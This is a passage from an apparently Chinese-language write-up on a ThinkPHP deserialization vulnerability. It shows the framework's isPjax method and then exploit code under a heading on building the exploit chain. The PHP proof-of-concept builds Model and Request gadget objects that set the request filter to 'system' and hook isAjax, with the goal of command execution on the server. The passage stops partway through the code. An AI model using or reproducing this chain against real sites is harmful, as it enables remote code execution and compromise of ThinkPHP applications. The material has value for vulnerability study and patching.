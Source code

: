 ```
public function isPjax($pjax = false)
    {
        $result = !is_null($this-&gt;server('HTTP_X_PJAX')) ? true : false;

        if (true === $pjax) {
            return $result;
        }

        $result           = $this-&gt;param($this-&gt;config['var_pjax']) ? true : $result;
        $this-&gt;mergeParam = false;
        return $result;
    }

```

### 构造反序列化利用链

> 



> 



```
&lt;?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this-&gt;data = ['H3rmesk1t' =&gt; new Request()];
        $this-&gt;append = ['H3rmesk1t' =&gt; []];
    }
}
class Request{
    protected $filter;
    protected $hook = [];
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       =&gt; '_method',
        // 表单ajax伪装变量
        'var_ajax'         =&gt; '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         =&gt; '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     =&gt; 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   =&gt; ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   =&gt; '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  =&gt; '',
        // HTTPS代理标识
        'https_agent_name' =&gt; '',
        // IP代理获取标识
        'http_agent_ip'    =&gt; 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  =&gt; 'html',
    ];
    function __construct(){
        $this-&gt;filter = "system";
        $this-&gt;config = ['var_ajax' =&gt; ''];
        $this-&gt;hook = ['visible' =&gt; [$this,'isAjax']];
    }
```